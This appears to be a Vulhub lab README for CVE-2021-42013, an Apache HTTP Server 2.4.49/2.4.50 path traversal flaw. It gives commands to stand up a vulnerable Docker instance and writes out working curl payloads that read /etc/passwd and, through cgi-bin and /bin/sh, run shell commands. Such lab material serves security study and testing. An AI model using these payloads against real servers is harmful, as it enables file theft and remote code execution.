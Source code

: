 # Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.50 (CVE-2021-42013)

[中文版本(Chinese version)](README.zh-cn.md)

The Apache HTTP Server Project is an effort to develop and maintain an open-source HTTP server for modern operating systems including UNIX and Windows.

CVE-2021-42013 is a vulnerability that caused by incomplete fix of [CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773), an attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives.

This vulnerability affects Apache HTTP Server 2.4.49 and 2.4.50 and not earlier versions.

References:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/roman_soft/status/1446252280597078024

## Vulnerable environment

Execute following commands to start a vulnerable Apache HTTP Server:

```
docker-compose build
docker-compose up -d
```

After the server is started, you can see the default page which says `It works!` of Apache HTTP Server through `http://your-ip:8080`.

## Exploit

Apache HTTP Server 2.4.50 patched the previous CVE-2021-41773 payload such as `http://your:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`, but it was incomplete.

Use `.%%32%65` to bypass the patches (Note that `/icons/` must be a existing directory):

```
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

The `/etc/passwd` is disclosured successfully:

![](1.png)

With the mods cgi or cgid enabled on the server, this path traversal vulnerability would allow arbitrary command execution:

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![](2.png)
